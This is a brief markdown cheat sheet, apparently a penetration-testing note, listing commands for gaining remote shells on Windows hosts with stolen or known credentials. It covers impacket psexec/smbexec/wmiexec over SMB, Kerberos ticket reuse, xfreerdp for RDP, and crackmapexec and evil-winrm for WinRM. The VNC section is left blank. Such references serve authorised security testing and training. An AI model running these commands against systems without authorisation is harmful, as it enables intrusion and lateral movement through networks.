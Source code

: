# Shell
## SMB & RPC: 445, 135
```bash
impacket-psexec '<DOMAIN>/<USER>:<PASS>@<IP>'
impacket-smbexec '<DOMAIN>/<USER>:<PASS>@<IP>'
impacket-wmiexec '<DOMAIN>/<USER>:<PASS>@<IP>'
KRB5CCNAME='<CCACHE>' impacket-smbexec -k -no-pass '<DOMAIN>/<USER>@<TARGET>'
psexec.py '<DOMAIN>/<USER>:<PASS>@<IP>' '<COMMANDS>'
```

## RDP: 3389
```bash
impacket-rdp_check '<DOMAIN>/<USER>:<PASS>@<IP>' # check

xfreerdp /v:<IP> /u:'DOMAIN\<USER>' /p:'<PASS>' /cert:ignore /dynamic-resolution /drive:share,/tmp +clipboard

remmina
```

## WinRM: 5985, 5986
```bash
crackmapexec winrm <IP> -u '<USER>' -p '<PASS>' # check

evil-winrm -i <IP> -u '<USER>' -p '<PASS>'
```

## VNC
??